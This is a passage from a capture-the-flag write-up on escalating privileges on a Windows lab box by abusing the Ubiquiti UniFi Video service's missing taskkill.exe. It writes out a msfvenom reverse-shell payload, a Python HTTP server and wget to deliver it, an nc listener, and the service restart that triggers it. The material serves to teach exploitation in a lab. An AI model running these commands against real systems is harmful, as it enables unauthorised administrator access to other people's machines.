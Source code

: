 We are in! It is possible to use the Powershell thing in the web server but I prefer this. The user flag is under `C:\Users\Stacy\Desktop\user.txt`.

## Privesc

There is a file in the documents folder called `unifivideo`. Looks like is part of a program called Ubiquiti UniFi Video:

```bash
┌──(kali㉿kali)-[~/Desktop/evil-winrm]
└─$ searchsploit unifivideo          
Exploits: No Results
Shellcodes: No Results
                                                                                                                     
┌──(kali㉿kali)-[~/Desktop/evil-winrm]
└─$ searchsploit Ubiquiti UniFi Video
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Ubiquiti Networks UniFi Video Default - 'crossdomain.xml' Security Bypass          | php/webapps/39268.java
Ubiquiti UniFi Video 3.7.3 - Local Privilege Escalation                            | windows/local/43390.txt
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

If the version is old enough we can scalate privileges. The thing is that this program is installed in `C:\ProgramData\unifi-video\` which is world writtable (inherited from `C:\ProgramData` by default) and the service run as Administrator.

When the service starts or stops, it tries to load and execute `C:\ProgramData\unifi-video\taskkill.exe`. The exploit here is that that executable does not exists by default, since we have permissions to modify the `C:\ProgramData\unifi-video\` directory we could inject a malicious program instead.

First I tried to generate the program using `msfvenom`:

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.43 LPORT=3000 -f exe > taskkill.exe
```

I uploaded the file to the box using the typical Python server trick and tried the exploit:

```bash
# Atacker
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

# Victim
*Evil-WinRM* PS C:\ProgramData\unifi-video> wget 10.10.14.43:8000/taskkill.exe -outfile taskkill.exe

# Atacker
nc -lnvp 3000
listening on [any] 3000 ...

# Victim
Stop-Service  "Ubiquiti UniFi Video"
Start-Service  "Ubiquiti UniFi Video"
```
